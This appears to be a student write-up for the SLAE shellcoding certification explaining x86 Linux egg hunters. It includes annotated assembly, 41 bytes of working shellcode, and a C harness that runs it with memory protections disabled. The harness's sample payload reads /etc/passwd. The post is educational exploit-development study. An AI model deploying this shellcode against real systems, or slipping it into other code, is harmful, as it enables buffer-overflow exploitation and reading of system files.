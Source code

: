 # Project 3: Egg hunter

- Study about the Egg Hunter shellcode
- Create a working demo of the Egghunter
- Should be configurable for different payloads




# What is an egg hunter?

A really good blog post by a previous student [H0mbre](https://h0mbre.github.io/SLAE_Egg_Hunter/) does a really great job consolidating information on egg hunters. Of note, he mentions [this paper](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) which defines a few techniques for writing an egg hunter. When searching egg hunters online, you will see a lot of examples using the [access()](https://man7.org/linux/man-pages/man2/access.2.html) method check for validating linux pages of memory that are readable such as [this one](https://rastating.github.io/creating-an-egg-hunter/) by rastating and another on [infosecwriteups](https://infosecwriteups.com/expdev-egghunter-linux-implementation-49154ff4d225) by bigb0ss. Conversely, I only found a few egg hunters using the `sigcheck()` method to check for valid memory without receiving SIGSEGV signal. That said, I did find one example of it's use by [mmquant](https://mmquant.net/egg-hunters-on-linux/#egghunter_example_sigaction). I mention this to point out a few techniques for finding eggs without throwing exceptions from trying to read memory in inaccessable addresses.

In short, an egg hunter is a two stage payload when you have limited buffer space for your overflow. If you can insert the main payload somewhere in memory, you can use a small egg hunter to search for that main payload and execute it. For more specific details, please refer to the links above. 

For this assignment I will walk through the `access()` egg hunter methodology. I will use the egg `"c0de" or 0x65643063 (little endian)` as it seems [epi](https://epi052.gitlab.io/notes-to-self/blog/2020-05-18-osce-exam-practice-part-three/#mona-py-egg) has found it to work better than some other eggs such as `"W00T"` and it's a bit funner than random characters.


# Egg Hunter Assembly 

After playing with H0mbre's code as a means of learning, I wanted to change the assembly a bit so it's not a copy paste. That said, the assembly is pretty much the basic method of doing an `access()` egg hunter. I also didn't want to insert a bunch of junk statements just to make the assembly different. Thus, I only made a couple changes.

The first change was to replace the `mov ebx, <egg>` with `mov esi, <egg>`. Thus, I now store my egg in the `esi` regsiter instead of `ebx`. Because of this, I was able to remove the `pushad` and `popad` instructions as a means of saving registers since my egg was not constantly overwritten with the first argument of the access() call. 

Now that the `pushad/popad` instructions are removed, the only register that keeps getting overwritten is `eax` which holds the return value of the access() call. Usuall 0xfffffff2 or 0xfffffffb. To remedy this, I changed the `mov al, 0x21` to a `push 0x21; pop eax`. This will not add null bytes to my assembly and will effectively reset the eax register with the proper value. 

These changes result in a shellcode that is 1 byte less than the original. 

However, this shellcode did not work. After some debugging, the rather obvious answer appeared. The shellcode eventually jumps to the address in `edx` which holds our egg. What I need to do is jump past the egg to the actual instructions to execute. To do this, a simple `add edx, 0x8` is inserted right before `jmp edx` and the shellcode executes flawlessly. 

Since I want the egg to be `c0d3`, I make the egg stored in register `esi` set to `0x33643063` (3d0c)... which is `c0d3 | 0x63306433` in little endian.

The final assembly is as follows:

```assembly
global _start

section .text
_start:
    mov esi, 0x33643063	; egg ("c0d3"), backwards in little endian = "3d0c" = 0x33643063
    xor ecx, ecx		
    mul ecx             ; set eax and edx to 0

page_forward:		    ; here, we're going to design a function of what to do if we get an EFAULT error
    or dx, 0xfff		; doing a bitwise logical OR against the $dx value
                        ; dx=4095 ; 0x1000 - 1 (4095) ; Page sizes in Linux x86 = 4096

address_check:		    ; here we're going to design a function to check the next 8 bytes of mem
    inc edx			    ; gets $edx to a nice multiple of 4096
    lea ebx, [edx+4]	; load [edx+4] to check if this fresh page is readable by us
    push 0x21		; access()
    pop eax
    int 0x80

    cmp al, 0xf2		; does the low-end of $eax equal 0xf2? did we get an EFAULT? 
    jz page_forward		; if we got an EFAULT, this page is unreadable, time to go to the next page!

    cmp [edx], esi		; is what is stored at the address of $edx our egg (0x65643063) ?
    jnz address_check	; if it's not, let's advance into the page and see if we can't find that pesky egg
    
    cmp [edx+4], esi	; we found our egg once, let's see if it's also in $edx + 4
    jnz address_check	; we found it once but not twice, have to keep looking
    
    add edx, 0x8        ; jump past our egg to our actual shellcode
    jmp edx			    ; we found it twice! go to edx (where our egg is) +8 and execute the code there! 
```


Shellcode (Length: 41 bytes):

```c
"\xbe\x63\x30\x64\x33\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\x39\x32\x75\xef\x39\x72\x04\x75\xea\x83\xc2\x08\xff\xe2"
```

# Testing

To test, the shellcode can be executed with dynamic payloads using this egg_hunter_test.c program:

```c
#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

unsigned char hunter[] = "\xbe\x63\x30\x64\x33\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\x39\x32\x75\xef\x39\x72\x04\x75\xea\x83\xc2\x08\xff\xe2";
unsigned char code[] = "\x63\x30\x64\x33\x63\x30\x64\x33\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\x01\x10\x4a\xcd\x80\x92\x29\xc0\xb0\x04\xb3\x01\xcd\x80\xb0\x01\xcd\x80";
	

int main(){
    printf("Hunter length: %d\n", strlen(hunter));
    printf("Shellcode length: %d\n", strlen(code));


    int r =  mprotect((void *)((int)hunter & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
    printf("mprotect: %d\n",r);
    int (*ret)() = (int(*)())hunter;
    return ret();
    // return 1;
}
```

Of note is that the `code` variable can be any payload you want, just ensure it is prepended with the egg twice `\x63\x30\x64\x33\x63\x30\x64\x33` (c0d3c0d3).

Compile and run using 

```bash
gcc -fno-stack-protector -z execstack -m32 egg_hunter_test.c -o egg_hunter 
./egg_hunter
```


# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: PA-29350
